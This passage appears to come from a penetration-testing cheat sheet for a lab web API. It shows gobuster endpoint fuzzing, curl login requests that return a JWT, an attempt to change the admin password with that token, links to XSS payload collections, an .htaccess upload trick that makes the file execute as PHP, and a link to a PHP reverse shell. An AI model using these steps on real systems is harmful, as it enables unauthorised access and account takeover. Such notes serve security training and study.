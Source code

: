     ```
   - `gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern` – Fuzz for API endpoints.
 - `curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login` – Test API login functionality.
   - If logoin successful, you should receive a token like below:
    ```bash
    kali@kali:~$ curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

     {"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}

    kali@kali:~$ curl  \
    'http://192.168.50.16:5002/users/v1/admin/password' \
    -H 'Content-Type: application/json' \
    -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
    -d '{"password": "pwned"}'

    {
    "detail": "The method is not allowed for the requested URL.",
    "status": 405,
    "title": "Method Not Allowed",
    "type": "about:blank"
    }
    
    ```
- Check cross-site scripting stored or reflected 
    * https://gist.github.com/michenriksen/d729cd67736d750b3551876bbedbe626
    * XSS simple payload : https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/#tools
    * XSS Polyglot : https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/2%20-%20XSS%20Polyglot/
- .htaccess upload to restrict access to certain files https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/
  
  - .htaccess file 
    ```bash
    # .htaccess
    <FilesMatch "\.(php|php5|phtml|html|htm|js|css|exe|pl|py|sh|rb|cgi)$">
    Order Allow,Deny
    Deny from all
    </FilesMatch>

    AddType application/x-httpd-php .htaccess
    ```

### Webshells

- PHP windows reverse shell https://github.com/Dhayalanb/windows-php-reverse-shell

### Web Exploitation
